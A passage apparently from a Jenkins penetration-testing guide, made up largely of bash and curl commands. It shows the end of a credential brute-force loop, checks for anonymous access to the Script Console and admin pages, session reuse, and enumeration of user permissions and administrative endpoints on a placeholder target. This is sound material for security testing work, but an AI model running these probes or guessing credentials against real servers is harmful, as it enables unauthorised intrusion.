 ```bash
    if [[ $response == *"200"* ]]; then
        echo "[+] Valid credentials found: $username:$password"
        break
    fi
done
```

#### Authentication Bypass Testing
```bash
# Test for anonymous access
curl -s "http://target.com:8080/script" | grep -q "Script Console" && \
  echo "[!] CRITICAL: Anonymous Script Console access!"

curl -s "http://target.com:8080/manage" | grep -q "Manage Jenkins" && \
  echo "[!] CRITICAL: Anonymous administrative access!"

# Authentication method analysis
curl -s "http://target.com:8080/configureSecurity/" | \
  grep -oP 'name="_.*(realm|security)"[^>]*value="[^"]*"'

# Session management testing
curl -s -c session.txt "http://target.com:8080/login"
curl -s -b session.txt "http://target.com:8080/manage" | \
  grep -q "Manage Jenkins" && echo "[+] Session-based access possible"
```

### Authorization Level Enumeration

#### Permission Matrix Analysis
```bash
# User permission enumeration (if authenticated)
curl -s -u "username:password" \
  "http://target.com:8080/whoAmI/api/json" | jq -r '.authorities[]'

# Role-based access control analysis
curl -s -u "username:password" \
  "http://target.com:8080/configureSecurity/" | \
  grep -A 10 -B 10 "authorization"

# Administrative privilege testing
admin_endpoints=(
    "/manage"
    "/configureSecurity/"
    "/script"
    "/systemInfo"
    "/pluginManager/"
)

echo "[+] Testing administrative access:"
for endpoint in "${admin_endpoints[@]}"; do
    response=$(curl -s -u "username:password" \
        -o /dev/null -w "%{http_code}" \
        "http://target.com:8080$endpoint")
    echo "$endpoint: HTTP $response"
done
```

---